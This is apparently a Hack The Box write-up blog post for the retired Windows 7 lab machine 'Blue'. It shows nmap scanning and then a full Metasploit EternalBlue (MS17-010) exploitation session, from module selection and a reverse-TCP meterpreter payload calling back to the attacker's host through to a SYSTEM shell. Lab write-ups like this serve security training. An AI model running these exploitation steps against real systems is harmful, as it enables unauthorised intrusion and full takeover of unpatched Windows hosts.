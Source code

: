 ```yaml
---
title: "Hack The Box - Blue"
date: 2022-06-08T12:27:49+05:30
draft: false
description: " Blue from HackTheBox is an retired machine which is vulnerable to infamous CVE:CVE-2017-0143 SMB vulnerabilities which can be easily exploited with publicly available scripts and Metasploit "
hideToc: false
tocPosition: outer
enableToc: true
enableTocContent: false
author: Atom
authorEmoji: ✍️
tags: 
- SMB
- CVE-ID-2017-0143
series:
- Pratical Ethical Hacking TCM
categories:
- Easy
- HackTheBox
- Windows
- CVE Exploitation 
- Metasploit
libraries:

image: /images/hackthebox/blue/Blue.png 
---
```


Hi Hackers Welcome Back, Today we are going to look at Hack The Box Blue Machine.

{{< img src="/images/hackthebox/blue/1.png" alt="image alt" width="450px"  position="center" >}}

## Info Table
<table style="width:100%">
 <thead>
  <tr>
    <th>Title</th>
    <th>Blue</th>
  </tr>
</thead>
<tr>
    <td>Category</td>
    <td>Hack The Box</td>
    </tr>
  <tr>
    <td>OS</td>
    <td>Windows</td>
    </tr>
  </tr>
   <tr>
    <td>Difficulty</td>
    <td>Easy</td>
    </tr>
    <tr>
    <td>Maker</td>
    <td><a href="https://www.hackthebox.eu/home/users/profile/1"><img src="https://www.hackthebox.eu/badge/image/1" alt="" style="display: unset"></a>  </td>
    </tr>
    <tr>
    </tr>
</table>

## Kill Chain Summery
While enumerating ports and services we can able to find the service, which is vulnerable to infamous CVE-2017-0143. Smb vulnerabilities which can be easily exploited with publicly available scripts and Metasploit. 

## Mind Map 
{{< img src="/images/hackthebox/blue/mm.png" alt="image alt" width="1000px"  position="center" >}}

## Recon

we run a quick initial nmap scan to see which ports are open and which services are running on those ports.

``` bash
$nmap -Pn -sC -sV -A 10.129.102.59 -oN  initial
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-08 06:35 IST
Stats: 0:01:56 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 77.78% done; ETC: 06:37 (0:00:18 remaining)
Nmap scan report for 10.129.102.59
Host is up (0.35s latency).
Not shown: 991 closed tcp ports (conn-refused)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-06-08T01:07:44
|_  start_date: 2022-06-07T15:32:51
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-06-08T02:07:43+01:00
|_clock-skew: mean: -19m55s, deviation: 34m36s, median: 3s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 134.70 seconds
```
## Enumeration

``` bash {hl_lines=[20, 21]}
┌─[✗]─[atom@atom-vmwarevirtualplatform]─[~]
└──╼ $nmap -p 135,139,445 -sV -sC  --script vuln 10.129.102.59
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-08 06:57 IST
Stats: 0:00:24 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 96.61% done; ETC: 06:57 (0:00:00 remaining)
Nmap scan report for 10.129.102.59
Host is up (0.29s latency).

PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.73 seconds

```
## Exploitation 

``` bash {hl_lines=[1, 17, 20, 22, 24, 56, 62, 66]}
[msf](Jobs:0 Agents:0) >> search ms17-010

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce

[msf](Jobs:0 Agents:0) >> use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp

[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_eternalblue) >> set rhost 10.129.102.59
rhost => 10.129.102.59
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_eternalblue) >> set lhost 10.10.14.33
lhost => 10.10.14.33
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_eternalblue) >> run

[*] Started reverse TCP handler on 10.10.14.33:4444 
[*] 10.129.102.59:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.129.102.59:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.129.102.59:445     - Scanned 1 of 1 hosts (100% complete)
[+] 10.129.102.59:445 - The target is vulnerable.
[*] 10.129.102.59:445 - Connecting to target for exploitation.
[+] 10.129.102.59:445 - Connection established for exploitation.
[+] 10.129.102.59:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.129.102.59:445 - CORE raw buffer dump (42 bytes)
[*] 10.129.102.59:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.129.102.59:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.129.102.59:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.129.102.59:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.129.102.59:445 - Trying exploit with 12 Groom Allocations.
[*] 10.129.102.59:445 - Sending all but last fragment of exploit packet
[*] 10.129.102.59:445 - Starting non-paged pool grooming
[+] 10.129.102.59:445 - Sending SMBv2 buffers
[+] 10.129.102.59:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.129.102.59:445 - Sending final SMBv2 buffers.
[*] 10.129.102.59:445 - Sending last fragment of exploit packet!
[*] 10.129.102.59:445 - Receiving response from exploit packet
[+] 10.129.102.59:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.129.102.59:445 - Sending egg to corrupted connection.
[*] 10.129.102.59:445 - Triggering free of corrupted buffer.
[*] Sending stage (200262 bytes) to 10.129.102.59
[*] Meterpreter session 1 opened (10.10.14.33:4444 -> 10.129.102.59:49158 ) at 2022-06-08 07:02:32 +0530
[+] 10.129.102.59:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.129.102.59:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.129.102.59:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

(Meterpreter 1)(C:\Windows\system32) > shell
Process 1840 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>

```



you can find flags under Haries and Administrator's Desktop folder 

{{< notice success "we have successfully Pwned the Machine " >}}
See you on the next Blog, Happy hacking...
{{< /notice >}}